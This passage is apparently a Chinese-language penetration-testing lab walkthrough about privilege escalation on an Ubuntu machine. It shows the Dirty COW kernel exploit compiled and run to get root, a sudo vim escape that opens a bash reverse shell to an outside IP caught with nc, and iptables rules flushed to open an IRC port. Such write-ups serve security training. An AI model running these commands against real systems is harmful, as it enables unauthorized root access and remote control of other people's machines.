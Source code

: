 这里找了个比较好的poc!

gcc CVE-2016-5195.c -o dayu -pthread
chmod +x dayu
./dayu
.......
root@ubuntu:/tmp# id
uid=0(root) gid=33(www-data) groups=33(www-data)

成功获得root权限！！但是等待几分钟也崩溃了，但是可以执行一段时间！
------------------------------------------------
------------------------------------------------
方法2：sudo 提权
sudo -l

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables


1）waldo权限下存在000-default.conf文件--提权
sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf

然后输入冒号:!bash -i >& /dev/tcp/192.168.139.131/7777 0>&1

本地kali监听7777端口：nc -vlp 7777

即可拿到反弹shell！
获得个稳定shell：
python3 -c 'import pty; pty.spawn("/bin/bash")'

在/home/waldo目录发现irssi.sh！
该脚本是IRC需求写的一些命令！



2）项目二十五有遇到过/sbin/iptables，没教！！

还记得开启了6667/tcp  filtered irc服务吗？

这时候查看下规则：
sudo /sbin/iptables -L
------
ubuntu:/tmp$ sudo /sbin/iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     tcp  --  localhost            anywhere             tcp dpt:ircd
DROP       tcp  --  anywhere             anywhere             tcp dpt:ircd 

------
当前的规则是所有与IRC的外部连接都将被删除，准备使IRC服务器进行开放：

sudo iptables -R INPUT 2 -p tcp --dport 6667 -j ACCEPT
重写了第二条规则以允许端口6667上的TCP连接！

或者全部放行：sudo /sbin/iptables --flush

参考详细学习方法：
https://blog.csdn.net/iteye_5722/article/details/82676064
